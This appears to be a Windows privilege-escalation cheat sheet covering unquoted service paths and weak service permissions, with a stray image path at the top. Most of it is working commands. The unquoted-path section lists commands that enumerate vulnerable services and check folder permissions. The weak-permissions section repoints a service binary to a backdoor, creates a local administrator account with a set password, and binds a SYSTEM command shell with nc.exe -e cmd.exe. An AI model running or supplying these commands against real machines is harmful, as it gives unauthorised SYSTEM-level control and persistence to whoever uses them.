 ### Unquoted Service Path

Technically Unquoted Service Path vulnerability is caused by the CreateProcess function in Windows operating systems which may allow unprivileged loc users to modify the affected executable file as a system privilege in order to elevate their privileged from unprivilege to system privilged.

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:

C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
```
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```
If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM.In order to check the permissions of a folder
```
icacls "C:\WeakServices\Weak Service 1\service1.exe"
icacls "C:\WeakServices\Weak Service 1"
icacls "C:\Program Files (x86)\Program Folder"
icacls "C:\Program Files\Photodex\ProShow Producer\Scsiaccess.exe"
```

### Weak Service Permission



```
accesschk.exe -cv MeMe WeakService3
sc config WeakService3 binpath= "C:\Users\MeMe\Desktop\Backdoor.exe" 
sc config WeakService3 binpath= "net user MeMe MeMe@!@#123 /add" 
sc config WeakService3 binpath= "net localgroup Administrators MeMe /add" 

sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

```
